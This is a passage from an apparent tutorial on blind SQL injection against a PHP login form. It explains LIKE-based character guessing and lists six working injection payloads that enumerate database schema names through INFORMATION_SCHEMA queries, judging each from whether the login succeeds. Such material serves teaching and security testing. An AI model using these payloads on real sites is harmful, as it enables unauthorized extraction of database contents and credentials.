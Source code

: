 ```php

?>

//What we want need to find out:
//'DB_NAME': The database name.
//'table': The table name.
//'usercolumn': The first column's name.
//'passcolumn': The second column's name.
//Additional columns or tables on the server.
```

There is a lot of stuff that can be found. But how can they be found? The code we have constructed only shows to possibilities. The login either fails or succeeds. Believe it or not, a true or false is all we need to find out all the data we need. Brute-forcing by pure combination is one possibility. Another type of brute-forcing that saves much more time (maybe a few trillion years?) can be performed with the assistance of the LIKE operator. Let's first look at the power of LIKE.

```sql
# 1)A 'Password' value with the letter b in it
... Password LIKE '%b%'

# 2)A 'Password' value where the first letter is b
... Password LIKE 'b%'

# 3)A 'Password' value where the second letter is b
... Password LIKE '_b%'

# 4)A 'Password' value where the last letter is b
... Password LIKE '%b'

# 5)A 'Password' value where the second to last letter is b
... Password LIKE '%b_'
```

We can now use this magical operator to ask the server yes or no questions and find out all the information we need. We can input anything into the username that doesn't mess with the query. I'll be using 'bar' without quotes. The following password queries were sent. The results are shown them.

```sql
# Query 1
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 's%' AND TABLE_SCHEMA != 'information_schema') #

# Query 2
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 't%' AND TABLE_SCHEMA != 'information_schema') #

# Query 3
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'u%' AND TABLE_SCHEMA != 'information_schema') #

# Query 4
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tt%' AND TABLE_SCHEMA != 'information_schema') #

# Query 5
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tz%' AND TABLE_SCHEMA != 'information_schema') #

# Query 6
' OR EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA LIKE 'tu%' AND TABLE_SCHEMA != 'information_schema') #
```
